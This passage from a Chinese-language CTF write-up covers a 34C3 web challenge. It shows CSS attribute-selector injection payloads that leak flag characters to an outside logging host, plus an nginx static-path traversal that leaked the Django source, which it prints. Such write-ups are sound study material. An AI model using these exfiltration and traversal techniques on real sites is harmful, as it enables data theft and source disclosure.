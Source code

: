 这里还有个小坑

当我们试图使用下面的payload来获取flag时
```
#flag[value^=34C3]{background: url(https://xxx?34c3);}
```
字符串首位的3不会被识别为字符串，必须使用双引号包裹才能正常解析。但是双引号被转义了。

这里我们需要换用`*`

```
*号选择器代表这属性中包含这个字段，由于flag中有_存在，所以不会对flag的获取有影响
```

payload如下
```
#flag[value*=C3_1]{background: url(//l4w.io/rpo/logging.php?flag=C3_1);}
#flag[value*=C3_0]{background: url(//l4w.io/rpo/logging.php?flag=C3_1);}
..
#flag[value*=C3_f]{background: url(//l4w.io/rpo/logging.php?flag=C3_1);}
```

完全的payload我就不专门写了，理解题目的思路比较重要。

整个题目的利用链非常精巧，服务端bot比我想象中要强大很多，有趣的是，整个题目存在配置的非预期，我一度认为非预期解法是正解。

## 非预期 ##

以前在pwnhub第二期中曾经接触到过一个知识点，django的静态资源路由（static）本身就是通过映射静态资源目录实现的，当django使用nginx做反代时，如果nginx配置出现问题，那么就有可能存在导致可以跨目录的读取文件，导致源码泄露。34c3的所有django的web题目都有这个漏洞。

当我们访问
```
http://35.198.114.228/static../views.py
```

就可以获取到源码，让我们锁定flag页面的源码
```
@login_required
def flag(req):
    user_token = req.GET.get("token")
    if not user_token:
        messages.add_message(req, messages.ERROR, 'no token provided')
        return redirect('index')
    user_flag = "34C3_"+hashlib.sha1("foqweqdzq%s".format(user_token).encode("utf-8")).hexdigest()
    return render(req, 'flag.html', dict(user=req.user, 
        valid_token=user_token.startswith(req.user.profile.token), 
        user_flag=user_flag,
        user_token=user_token[:64],))
```

我们可以看到user_flag是通过token生成的，而token是登陆时随机生成的

```
def login(req):
    if req.user.is_authenticated:
        return redirect('index')

    if req.method == "POST":
        username = req.POST.get("username")
        password = req.POST.get("password")
        if not username or not password:
            messages.add_message(req, messages.ERROR, 'No username/password provided')
        elif len(password) < 8:
            messages.add_message(req, messages.ERROR, 'Password length min 8.')
        else:
            user, created = User.objects.get_or_create(username=username)
            if created:
                user.set_password(password)
                user.save()
```

  [1]: http://static.zybuluo.com/LoRexxar/r67ihy6epkvcnkqvnqulsvjl/image.png
  [2]: http://static.zybuluo.com/LoRexxar/sgxf9gq2ni5i7osmlm17vzry/image.png
  [3]: http://static.zybuluo.com/LoRexxar/23ujazb8yck2rnzy9b6ow02s/image.png
  [4]: http://static.zybuluo.com/LoRexxar/nptyaixmrkwgizd1bce9yhe3/image.png
  [5]: http://static.zybuluo.com/LoRexxar/2tmhyv1f575lfz6apaeg0o4q/image.png
  [6]: http://static.zybuluo.com/LoRexxar/9tys2vihqrm3xznatpwkjzkm/image.png